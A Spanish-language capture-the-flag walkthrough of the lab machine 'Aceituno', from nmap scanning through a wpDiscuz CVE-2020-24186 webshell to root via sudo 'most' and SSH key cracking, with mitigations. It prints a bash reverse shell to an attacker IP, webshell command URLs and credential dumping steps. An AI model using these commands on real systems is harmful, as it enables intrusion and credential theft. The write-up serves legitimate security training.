## Información General

| Campo             | Detalle               |
| ----------------- | --------------------- |
| Máquina           | Aceituno              |
| Plataforma        | TheHackersLabs        |
| Dificultad        | Facil                 |
| Sistema Operativo | Linux (Debian 12)     |
| IP objetivo       | 192.168.241.185       |
| Fecha             | 10-11 septiembre 2026 |

## Resumen del Ataque

El punto de entrada fue un WordPress accesible mediante un vhost (`aceituno.thl`) descubierto a través de una pista `dns-prefetch` en el código fuente de la web por IP. Una vez dentro del vhost, la identificación del plugin **wpDiscuz 7.0.4** permitió explotar **CVE-2020-24186**, una vulnerabilidad de subida de archivos que posibilita ejecución remota de comandos (RCE) mediante un webshell PHP camuflado. A partir de ahí se obtuvo una shell como `www-data`, se estabilizó el TTY y se extrajeron credenciales de `wp-config.php` para acceder a la base de datos MariaDB, donde una tabla no estándar (`pelopicopata`) contenía credenciales en texto plano (con problema de codificación en los caracteres especiales) que permitieron el salto a SSH como el usuario `aceituno`. La escalada a root se logró abusando de un binario permitido por `sudo` (`/usr/bin/most`), un visor de archivos que permite leer cualquier archivo como root, incluyendo la clave privada SSH de root, cuya passphrase fue crackeada offline con John the Ripper y el diccionario rockyou.

## Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-`, `-sS`, `-sC -sV`)
- Descubrimiento de virtual host mediante pista `dns-prefetch` en el código fuente HTML
- Fingerprinting de plugin WordPress (wpDiscuz) vía referencias a assets estáticos en el código fuente
- Explotación de **CVE-2020-24186** (wpDiscuz 7.0.4) — subida de webshell PHP con bypass de validación
- RCE vía parámetro `cmd` en el webshell subido
- Reverse shell con Bash y estabilización de TTY (`script` + `stty raw -echo` + `reset xterm`)
- Extracción de credenciales de base de datos desde `wp-config.php`
- Enumeración de base de datos MariaDB y volcado de tabla no estándar con credenciales en texto plano
- Pivote a usuario del sistema vía SSH con credenciales reutilizadas
- Abuso de `sudo` sobre `/usr/bin/most` (GTFOBins) para lectura arbitraria de archivos como root
- Exfiltración y crackeo offline de clave privada SSH de root (`ssh2john` + John + rockyou)
- Escalada final a root vía SSH con la clave privada descifrada

## Desarrollo

**1. Escaneo de puertos**

Escaneo inicial completo de todos los puertos TCP:

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.185
```



**2. Enumeración de servicios y versiones**

```
nmap -p 22,80,443,3306 -sC -sV -oN allport 192.168.241.185
```



Ya se identifica un WordPress 6.5.2 en el puerto 80 y una instancia MariaDB expuesta directamente en el puerto 3306.

**3. Descubrimiento del virtual host**

Al acceder por IP:

```
http://192.168.241.185/
```

En el código fuente aparece una pista de `dns-prefetch` apuntando a un dominio interno:



Se añade la entrada correspondiente en `/etc/hosts` y se accede al vhost:

```
http://aceituno.thl/
```



**4. Identificación del plugin vulnerable**

Navegando por el blog del WordPress:

```
http://aceituno.thl/2024/04/23/hola-mundo/
```



En el código fuente de esa entrada aparecen referencias al plugin **wpDiscuz** en su versión 7.0.4:



**5. Explotación de wpDiscuz 7.0.4 (CVE-2020-24186)**

Esta versión del plugin es vulnerable a subida de archivos sin validar correctamente la extensión, permitiendo subir un webshell PHP:

```
https://www.exploit-db.com/exploits/49967
```



Ejecución del exploit contra el vhost identificado:

```
python wpdiscuz7.0.4.py -u http://aceituno.thl/ -p /2024/04/23/hola-mundo/
```



**6. Verificación de RCE y obtención de shell reversa**

Se comprueba la ejecución de comandos a través del parámetro `cmd`:

```
http://aceituno.thl/wp-content/uploads/2026/09/nlldzxxyuntqifq-1789065923.6635.php?cmd=id
```


Se lanza una reverse shell hacia el equipo atacante:

```
http://aceituno.thl/wp-content/uploads/2026/09/nlldzxxyuntqifq-1789065923.6635.php?cmd=bash -c 'bash -i %26>/dev/tcp/192.168.241.128/1234 <%261'
```

```
nc -lvnp 1234
```



Estabilización del TTY:

```
script /dev/null -c bash
ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
www-data@Aceituno:/var/www/html/wordpress/wp-content/uploads/2026/09$ whoami
```



**7. Extracción de credenciales de wp-config.php*+

```
www-data@Aceituno:/var/www/html/wordpress/wp-content/uploads/2026/09$ find /var/www/ -type f -name "wp-config.php"
```



```
cat /var/www/html/wordpress/wp-config.php
```



**8. Acceso a MariaDB y volcado de credenciales**

```
www-data@Aceituno:/var/www/html/wordpress$ mysql -u wp_user -p
```



```
MariaDB [(none)]> show databases;
```



```
MariaDB [(none)]> use wordpress;
```



```
MariaDB [wordpress]> show tables;
```



```
MariaDB [wordpress]> select * from pelopicopata;
```

Llama la atención la tabla `pelopicopata`, que no es estándar de WordPress:



La contraseña se muestra con problemas de codificación por los caracteres especiales, pero es legible: `ElSeñorDeLaNoche`.

**9. Pivote a usuario del sistema vía SSH**

```
ssh aceituno@192.168.241.185
```

```
aceituno@Aceituno:~$ whoami
```



**10. Enumeración de privilegios sudo**

```
aceituno@Aceituno:~$ sudo -l
```



`most` es un visor de archivos de texto (paginador tipo `less`) que la cuenta `aceituno` puede ejecutar como root sin contraseña. Al ser un visor de archivos, permite leer cualquier archivo del sistema con privilegios de root, incluidos los que están restringidos a otros usuarios.

```
aceituno@Aceituno:~$ sudo -u root /usr/bin/most
```



**11. Lectura de la clave privada de root**

```
aceituno@Aceituno:~$ sudo -u root /usr/bin/most /root/.ssh/id_rsa
```



**12. Crackeo de la passphrase de la clave privada**

```
nano id_rsa
chmod 600 id_rsa
```

```
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
```



**13. Acceso final como root**

```
ssh root@192.168.241.185
```

```
root@Aceituno:~# whoami
```



```
root@Aceituno:~# cat root.txt 
```



```
root@Aceituno:~# cd /home
root@Aceituno:/home# cd aceituno/
root@Aceituno:/home/aceituno# cat user.txt 
```




## Lecciones Aprendidas

- La configuración de `dns-prefetch` en HTML puede filtrar hostnames internos que no estaban destinados a ser públicos, revelando virtual hosts ocultos.
- Un plugin de WordPress desactualizado (wpDiscuz 7.0.4) fue suficiente para obtener RCE completo mediante una vulnerabilidad de subida de archivos ya conocida y documentada públicamente (CVE-2020-24186), lo que demuestra la importancia crítica de mantener actualizados plugins de terceros.
- Reutilizar credenciales de una base de datos de aplicación (con propósitos ajenos a WordPress, como la tabla `pelopicopata`) para cuentas del sistema operativo permite escalar de un compromiso web a un compromiso del sistema.
- Permitir la ejecución sin contraseña de binarios "inofensivos" como visores de archivos (`most`) bajo `sudo` es en realidad equivalente a otorgar lectura arbitraria de archivos como root, incluyendo material sensible como claves privadas.
- Una clave SSH protegida con passphrase débil (`blessed1`, presente en rockyou) es crackeable offline en tiempos razonables, anulando la protección que en teoría ofrece el cifrado de la clave.

## Medidas de Mitigación

- Actualizar wpDiscuz (o cualquier plugin de WordPress) a la última versión y aplicar un proceso de gestión de parches recurrente para plugins de terceros.
- Restringir la ejecución de código en directorios de subida (`wp-content/uploads/`) mediante reglas de servidor web (por ejemplo, deshabilitar la ejecución de PHP en esa ruta).
- No reutilizar contraseñas entre bases de datos de aplicación y cuentas del sistema operativo.
- Evitar exponer bases de datos MySQL/MariaDB directamente a la red si no es estrictamente necesario; restringir el acceso por firewall a `localhost` o a hosts específicos.
- Revisar cuidadosamente qué binarios se permiten ejecutar vía `sudo`, evitando cualquier binario capaz de leer, escribir o ejecutar código arbitrario (consultar GTFOBins antes de autorizar binarios con `NOPASSWD`).
- Usar passphrases robustas y no presentes en diccionarios comunes para proteger claves privadas SSH, y restringir los permisos de lectura de `/root/.ssh/` a root únicamente.

